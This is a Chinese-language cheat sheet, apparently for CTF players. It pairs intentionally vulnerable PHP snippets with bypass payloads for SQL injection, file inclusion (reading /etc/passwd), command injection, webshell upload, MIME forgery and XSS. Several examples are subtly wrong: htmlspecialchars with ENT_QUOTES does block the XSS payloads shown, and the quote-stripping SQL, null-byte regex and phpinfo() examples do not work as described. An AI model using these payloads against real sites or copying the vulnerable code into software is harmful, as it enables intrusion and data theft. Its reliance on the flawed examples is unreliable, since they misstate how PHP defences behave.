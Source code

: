 下面是各种PHP漏洞绕过方法的详细列表，包括SQL注入、文件包含、命令执行、文件上传、跨站脚本攻击（XSS）、输入验证和特殊字符过滤绕过等。

### 1. SQL注入绕过

#### 1.1 基于注释的绕过
即使应用了简单的字符串过滤，攻击者仍然可以利用SQL注释来绕过过滤。
```php
// 漏洞代码
<?php
$id = str_replace("'", "", $_GET['id']);  // 移除单引号
$query = "SELECT * FROM users WHERE id = '$id'";
$result = mysqli_query($conn, $query);
?>
```
绕过方式：
```
http://example.com/page.php?id=1'--+
```

#### 1.2 基于字符编码的绕过
通过利用URL编码来绕过过滤。
```php
// 漏洞代码
<?php
$id = addslashes($_GET['id']);  // 转义特殊字符
$query = "SELECT * FROM users WHERE id = '$id'";
$result = mysqli_query($conn, $query);
?>
```
绕过方式：
```
http://example.com/page.php?id=%2527%2520OR%25201=1--+
```

### 2. 文件包含绕过

#### 2.1 利用字符编码绕过
```php
// 漏洞代码
<?php
$file = str_replace("../", "", $_GET['file']);  // 移除目录遍历字符
include($file);
?>
```
绕过方式：
```
http://example.com/page.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
```

#### 2.2 利用NULL字节截断绕过
```php
// 漏洞代码
<?php
$file = $_GET['file'];
include($file . ".php");
?>
```
绕过方式：
```
http://example.com/page.php?file=../../../../etc/passwd%00
```

### 3. 命令执行绕过

#### 3.1 利用换行符或制表符绕过
```php
// 漏洞代码
<?php
$cmd = str_replace(" ", "", $_GET['cmd']);  // 移除空格
system($cmd);
?>
```
绕过方式：
```
http://example.com/page.php?cmd=ls%0A-l
```

#### 3.2 利用特殊字符编码绕过
```php
// 漏洞代码
<?php
$cmd = escapeshellcmd($_GET['cmd']);
system($cmd);
?>
```
绕过方式：
```
http://example.com/page.php?cmd=ls\;\whoami
```

### 4. 文件上传绕过

#### 4.1 利用双重扩展名绕过
```php
// 漏洞代码
<?php
$allowed_types = ['image/jpeg', 'image/png'];
if (in_array($_FILES['file']['type'], $allowed_types)) {
    move_uploaded_file($_FILES['file']['tmp_name'], 'uploads/' . $_FILES['file']['name']);
}
?>
```
绕过方式：
```
上传文件名：shell.php.jpg
```

#### 4.2 伪造MIME类型绕过
```php
// 漏洞代码
<?php
$allowed_types = ['image/jpeg', 'image/png'];
if (in_array($_FILES['file']['type'], $allowed_types)) {
    move_uploaded_file($_FILES['file']['tmp_name'], 'uploads/' . $_FILES['file']['name']);
}
?>
```
绕过方式：
通过伪造MIME类型：
```
Content-Type: image/jpeg
```

### 5. 跨站脚本攻击（XSS）绕过

#### 5.1 利用事件属性绕过
```php
// 漏洞代码
<?php
echo htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
?>
```
绕过方式：
```
http://example.com/page.php?name=" onmouseover="alert('XSS')
```

#### 5.2 利用字符编码绕过
```php
// 漏洞代码
<?php
echo htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
?>
```
绕过方式：
```
http://example.com/page.php?name=%3Cscript%3Ealert('XSS')%3C/script%3E
```

### 6. 输入验证绕过

#### 6.1 利用特殊字符绕过
```php
// 漏洞代码
<?php
if (preg_match('/^[a-zA-Z0-9]+$/', $_GET['input'])) {
    echo $_GET['input'];
}
?>
```
绕过方式：
利用NULL字节：
```
http://example.com/page.php?input=validInput%00<script>alert('XSS')</script>
```

### 7. 函数限制绕过

#### 7.1 利用其它可用的函数绕过
```php
// 漏洞代码
<?php
if (function_exists('exec')) {
    exec($_GET['cmd']);
} else {
    echo "Function not available";
}
?>
```
绕过方式：
通过利用其它函数：
```
http://example.com/page.php?cmd=phpinfo()
```

#### 7.2 利用环境变量绕过
```php
// 漏洞代码
<?php
$cmd = $_GET['cmd'];
putenv("PATH=/tmp");
system($cmd);
?>
```
绕过方式：
```
http://example.com/page.php?cmd=ls
```

以上是常见的PHP绕过技巧和详细示例。在CTF比赛中，了解和运用这些技巧可以帮助你绕过安全机制，成功发现和利用代码中的漏洞。记得在实际开发中采取相应的安全措施来防止这些漏洞。